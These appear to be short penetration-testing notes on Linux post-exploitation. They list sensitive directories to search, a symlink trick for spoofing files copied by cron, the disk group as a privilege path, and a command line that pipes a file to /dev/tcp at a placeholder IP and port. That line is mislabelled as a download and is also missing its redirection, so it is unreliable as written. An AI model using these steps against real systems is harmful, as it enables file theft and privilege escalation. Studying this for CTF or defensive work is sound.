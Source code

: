 # Directories to check
```bash
~/
~/.ssh

/tmp
/dev/shm

/opt
/var
var/www/html
/usr

# If a site is live (configurations or other sites might be shown)
/etc/apache2 
/etc/apache2/site-enabled
```

# DIR / file copy (symlink)
If there's a directory or a file that is being copied *(by some program, perhaps cron)*, one can either create a symlink or a direct spoof of the actual file so, that the copied item will be spoofed and contain the data the attacker wants.


# Useful linux programs, tools and commands
```bash
# Human readable JSON data (jq)
cat <json_file> | jq

# Shows network topology
cat /proc/net/fib_trie

# Domain name
hostname

# OS info
/etc/os-release

# Download file from shell session
cat <file> /dev/tcp/<ip>/<port>
```



# Interesting groups
## Disk group
A user who is in the disk group, will probably have access to info on a given disk.
